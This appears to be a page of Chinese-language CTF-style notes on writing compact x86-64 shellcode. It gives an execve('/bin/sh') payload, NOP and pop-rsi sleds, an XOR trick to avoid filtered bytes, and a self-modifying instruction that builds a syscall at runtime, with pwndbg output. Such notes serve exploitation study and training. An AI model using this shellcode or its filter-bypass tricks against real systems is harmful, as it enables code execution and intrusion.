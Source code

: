 使用 push,pop完成操作占用空间更小, mov 0x3b: `48c7c03b000000`, push pop: `6a3b58`

```sh
mov rax, 0x68732f6e69622f	/* /bin/sh\x00 */
push rax
push rsp
pop rdi			/* rdi -> /bin/sh */
xor esi, esi	/* rsi = 0 */
xor edx, edx	/* rdx = 0 */
push 0x3b
pop rax
syscall
```
## 执行到指定位置可以使用 pop rsi 这种滑板 或者 nop 滑板

## 绕过


```sh
# 把 0x6873 放到栈上
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
```
## 但是直接push一个值到栈上要注意：

push 只能push一个32位数，超过32位不能编译（起码用pwntools的asm是这样子）

push 超过一个字节的数，会自动补全成32位，比如push 0x6873，就会编译为 hsh\x00\x00

但是如果只是push一个字节，就会编译为2个字节，比如push 0x8，机器码为 j\x08

## 使用 xor rip 的方式不错

```sh
    xor rax,rax
    mov esi,0x20230000
    xor dword ptr [rip],0x9f
    nop

```

```sh
*RIP  0x20230008 ◂— xor dword ptr [rip], 0x9f /* 0x9f000000003581 */
pwndbg> x/32bx  0x20230008                
0x20230008:     0x81    0x35    0x00    0x00    0x00    0x00    0x9f    0x00   
0x20230010:     0x00    0x00    0x90    0x05    0x00    0x00    0x00    0x00   
-- xor dword ptr [rip] -- 0x9f8135000000009f000000, rip指向的是下一条 0x90, 0x90 ^ 0x9f = 0xf 构成 0f05 - syscall
```